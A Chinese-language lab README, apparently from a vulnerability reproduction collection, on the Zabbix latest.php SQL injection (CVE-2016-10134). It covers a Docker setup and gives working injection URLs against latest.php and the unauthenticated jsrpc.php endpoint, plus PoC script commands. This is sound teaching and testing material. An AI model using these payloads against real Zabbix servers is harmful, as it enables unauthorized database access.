 # Zabbix latest.php SQL注入漏洞（CVE-2016-10134）

[English](README.md)

Zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

在Zabbix版本2.2.14和3.0.4之前，`latest.php`文件存在SQL注入漏洞。该漏洞允许远程攻击者通过`toggle_ids`数组参数在latest.php中执行任意SQL命令。该漏洞也可以通过jsrpc.php利用，且无需任何用户身份。

参考链接：

- https://support.zabbix.com/browse/ZBX-11023
- https://www.exploit-db.com/exploits/40237
- https://www.exploit-db.com/exploits/40353

## 环境搭建

执行如下命令启动Zabbix 3.0.3:

```
docker compose up -d
```

执行命令后，将启动数据库（MySQL）、Zabbix server、Zabbix agent、Zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker compose ps`查看容器状态，并通过`docker compose start`来重新启动容器。

## 漏洞复现

访问`http://your-ip:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](1.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![](2.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![](3.png)

## POC验证

调试中，我发现不用用户名和密码也可以在latest.php中进行SQL注入，实现细节见POC。

```shell
python3 CVE-2016-10134.py -t 127.0.0.1:8080

python3 CVE-2016-10134.py --target 127.0.0.1:8080
```
